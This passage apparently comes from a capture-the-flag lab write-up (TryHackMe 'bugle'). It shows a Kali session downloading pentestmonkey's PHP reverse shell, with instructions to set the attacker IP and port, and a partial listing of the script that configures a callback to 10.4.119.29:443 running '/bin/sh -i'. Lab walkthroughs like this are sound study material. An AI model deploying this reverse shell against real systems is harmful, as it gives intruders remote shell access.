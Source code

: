 {% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.php
--2025-02-19 00:54:47--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 2606:50c0:8000::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘shell.php’

shell.php                                                  100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0.003s  

2025-02-19 00:54:47 (1.76 MB/s) - ‘shell.php’ saved [5491/5491]
```
{% endraw %}

<br />
Update the IP and port in the script to whatever you are going to use as your lhost and lport.

{% raw %}
```php
┌──(kali㉿kali)-[~/Documents/thm/bugle]
└─$ cat shell.php               
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//

<snip>

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.4.119.29';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<snip>
```
{% endraw %}
